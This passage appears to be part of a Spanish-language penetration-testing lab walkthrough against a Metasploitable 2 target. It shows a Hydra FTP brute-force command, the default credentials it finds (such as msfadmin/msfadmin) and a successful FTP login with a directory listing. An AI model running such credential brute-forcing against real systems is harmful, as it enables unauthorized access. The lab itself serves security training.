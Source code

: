 La salida es la siguiente:
```bash
┌──(kali㉿kali)-[~/ms2]
└─$ sudo hydra -L users.txt -P passwords.txt 10.0.200.5 ftp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-30 14:52:28
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ftp://10.0.200.5:21/
[21][ftp] host: 10.0.200.5 login: msfadmin password: msfadmin
[21][ftp] host: 10.0.200.5 login: service password: service
[21][ftp] host: 10.0.200.5 login: user password: user
[21][ftp] host: 10.0.200.5 login: postgres password: postgres
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-30 14:52:32
```

4. Conectarse al ftp usando las credenciales encontradas por hydra
```bash
ftp 10.0.200.5
```

La salida es la siguiente:
```bash
┌──(kali㉿kali)-[~/ms2]
└─$ ftp 10.0.200.5
Connected to 10.0.200.5.
220 (vsFTPd 2.3.4)
Name (10.0.200.5:kali): msfadmin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

5. Ejecutar comandos en FTP

Para listar los directorios y archivos
```bash
ftp> ls
```

La salida es la siguiente:
```bash
ftp> ls
229 Entering Extended Passive Mode (|||16404|).
150 Here comes the directory listing.
drwxr-xr-x 6 1000 1000 4096 Apr 28 2010 vulnerable
226 Directory send OK.
ftp>
```
